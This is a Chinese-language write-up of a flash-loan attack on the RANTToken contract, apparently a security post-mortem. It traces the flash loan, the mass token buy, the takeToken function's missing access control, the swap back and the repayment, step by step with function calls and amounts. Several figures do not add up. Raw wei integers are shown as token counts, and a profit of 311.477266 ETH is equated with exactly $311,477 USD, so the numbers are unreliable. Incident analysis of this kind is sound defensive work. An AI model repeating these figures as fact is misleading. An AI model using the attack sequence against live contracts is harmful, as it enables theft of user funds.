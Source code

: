 ### 💥 攻击流程详解

#### 第一阶段: 闪电贷获取资金
```bash
📍 步骤 8: 闪电贷调用
函数: flash(address=0xfd9267ee..., uint256=0, uint256=2813769505544453342436, bytes=0x...)
资金: 2,813.77 WBNB (约$843,000)
目标: PancakeV3Pool (0x172fcd41...)
```

#### 第二阶段: 大量买入RANTToken
```bash
📍 步骤 16: 代币交换
函数: swap(uint256=0, uint256=96605739642631517916080650, address=0xfd9267ee..., bytes=0x...)
输入: 2,813.77 WBNB
输出: 96,605,739,642,631,517,916,080,650 RANTToken
池子: PancakePair (0x42a93c3a...)
```

#### 第三阶段: 利用takeToken漏洞
```bash
📍 关键漏洞点: takeToken函数
合约: 0x9adb8c52... (TransparentUpgradeableProxy)
实现: 0x559bee76... (漏洞逻辑合约)

🔍 漏洞分析:
- takeToken函数缺乏适当的权限控制
- 允许任意地址调用并获取奖励代币
- 没有检查调用者的实际贡献或质押
```

#### 第四阶段: 价格操纵与套利
```bash
📍 步骤 34: 大量转移代币
函数: transfer(address=0xc321ac21..., uint256=10733970071403501990675973)
目的: 触发takeToken逻辑，获得额外奖励

📍 步骤 244: 代币换回WBNB  
函数: swapExactTokensForETHSupportingFeeOnTransferTokens(uint256=144908595963947276874125, ...)
输入: 144,908,595,963,947,276,874,125 RANTToken
输出: ~20.02 WBNB
```

#### 第五阶段: 偿还闪电贷并获利
```bash
📍 步骤 276: 偿还闪电贷
函数: transfer(address=0x172fcd41..., uint256=2814050882495007787771)
偿还: 2,814.05 WBNB (含手续费)

📍 步骤 281: 获得利润
转账: 311.477266 ETH 到攻击者地址
净利润: $311,477 USD
```
